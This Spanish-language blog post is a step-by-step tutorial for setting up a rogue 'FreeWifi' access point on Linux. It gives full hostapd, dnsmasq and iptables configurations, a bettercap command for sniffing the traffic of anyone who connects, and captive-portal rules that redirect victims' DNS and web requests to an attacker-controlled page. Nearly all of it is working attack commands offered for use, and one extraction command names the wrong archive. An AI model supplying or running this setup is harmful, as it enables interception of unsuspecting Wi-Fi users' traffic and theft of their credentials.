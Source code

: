 ```yaml
---
layout: post
title: Evil Access Point
categories: Wifi
---
```


Evil Access Point with Linux

![_config.yml]({{ site.baseurl }}/images/20160711.jpeg)


# Materiales
* TL-WN722N (tarjeta de red tp-link)


# Instalando las herramientas
```
sudo apt-get update && sudo apt-get dist-upgrade -y
sudo apt-get install -y hostapd dnsmasq wireless-tools iw
```

### Instalando bettercap
```
sudo apt-get install curl ruby-dev libpcap-dev -y
sudo gem install bettercap
```

# Configuracion
Para trabajar recomiendo crear una carpeta con algun nombre caracteristico como `fakeap`. Luego, crear 3 archivos de configuracion usando algun editor de texto (dentro de la carpeta creada). En el caso de iptables, hay que darle permisos de ejecucion `chmod +x iptables` Suponiendo que trabajaremos con `eth0` y `wlan0`

### iptables
```
ifconfig wlan0 10.0.0.1/24 up
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward
```

### dnsmasq.conf
```
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

### hostapd.conf
```
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=6
```

# Automatizando la configuracion
Creamos un archivo con algun nombre caracteristico, por ejemplo `initconfig` luego, darle los correspondientes permisos de ejecucion `chmod +x initconfig`

```bash
#!/bin/bash

# Configuraciones iniciales
upstream=eth0
phy=wlan0

# levantando interfaz
ifconfig $phy 10.0.0.1/24 up

# configurando iptables
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o $upstream -j MASQUERADE
iptables -A FORWARD -i $phy -o $upstream -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward

# Configurando dnsmasq
cat <<EOF > dnsmasq.conf
interface=$phy
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
EOF

# Configurando hostapd
cat <<EOF > hostapd.conf
interface=$phy
driver=nl80211
ssid=FreeWifi
channel=6
EOF
```

# Evil Access Point UP!
Ahora que tenemos las configuraciones hechas, nos toca levantar el Access Point. Para eso ejecutaremos en cada terminal distinta lo siguiente:

```
sudo ./initconfig

sudo dnsmasq -C dnsmasq.conf -d

sudo hostapd hostapd.conf
```

### Bettercap
Iniciamos el sniffer (podemos ocupar cualquiera mientras realice sniffing pasivo, pero esta vez elegí bettercap)

```
sudo su
bettercap -I wlan0 --no-discovery --no-spoofing -X
```

# Revisando la red
Para poder ver quien esta en la red interna se recomienda descargar fing desde la página oficial: [https://www.fing.io/download/](https://www.fing.io/download/){:target="_blank"}

```
wget https://www.fing.io/wp-content/uploads/2016/10/overlook-fing-3.0.deb
sudo dpkg -i overlook-fing-3.0.deb
sudo fing 10.0.0.1/24
```

# Portal cautivo
Para realizar un ataque de portal cautivo no es necesario tener conexion a internet, solo basta levantar el Fake Access Point, pero cambiando las reglas. La idea de este ataque es dejar arriba el servicio de apache con alguna pagina a conveniencia.

```bash
iptables -F
iptables -F -t nat
#iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
#iptables -A FORWARD -i $phy -o eth0 -j ACCEPT
iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j DNAT --to 10.0.0.1
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1
iptables -P FORWARD DROP
```

# En caso de ocupar 2 wlans
Muchas veces no tenemos acceso por ethernet, por lo que estamos obligados a usar wifi para recibir `wlan0` y emitir `wlan1` señal. Para estos casos las configuraciones varian un poco. (Asumiendo de que tambien hay que modificar las configuraciones anteriores como `iptables`, `dnsmasq.conf` y `hostapd.conf` con sus interfaces respectivos)

### Raspbian
Con un editor de texto hay que modificar el archivo `/etc/network/interfaces`, comentando las lineas que tengan relación con la interfaz
 que ocuparás para crear el Evil Access Point.

```
# interfaces(5) file used by ifup(8) and ifdown(8)

# Please note that this file is written to be used with dhcpcd
# For static IP, consult /etc/dhcpcd.conf and 'man dhcpcd.conf'

# Include files from /etc/network/interfaces.d:
source-directory /etc/network/interfaces.d

auto lo
iface lo inet loopback

iface eth0 inet manual

allow-hotplug wlan0
iface wlan0 inet manual
    wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf

#allow-hotplug wlan1
#iface wlan1 inet manual
    #wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf
```

Recomiendo reiniciar para que las configuraciones se apliquen

```
sudo reboot
```


### network-manager
Se tiene que agregar las 2 ultimas lineas del archivo `/etc/NetworkManager/NetworkManager.conf`, para evitar el conflicto entre la interfaz de red y network-manager

```
[main]
plugins=ifupdown,keyfile

[ifupdown]
managed=false

[keyfile]
unmanaged-devices=interface-name:wlan1
```

Ahora necesitamos reiniciar el servicio de network-manager

```
sudo service network-manager restart
```

# Conectarse por 3G
```
sudo apt-get install ppp
sudo wget "http://downloads.sourceforge.net/project/vim-n4n0/sakis3g.tar.gz?r=http%3A%2F%2Fsourceforge.net%2Fprojects%2Fvim-n4n0%2Ffiles%2F&ts=1363537696&use_mirror=tene~t" -O sakis3g.tar.gz
sudo tar -xzvf sakis36.tar.gz
sudo apt-get install sg3-utils
sudo chmod +x sakis3g
sudo ./sakis3g --interactive
```
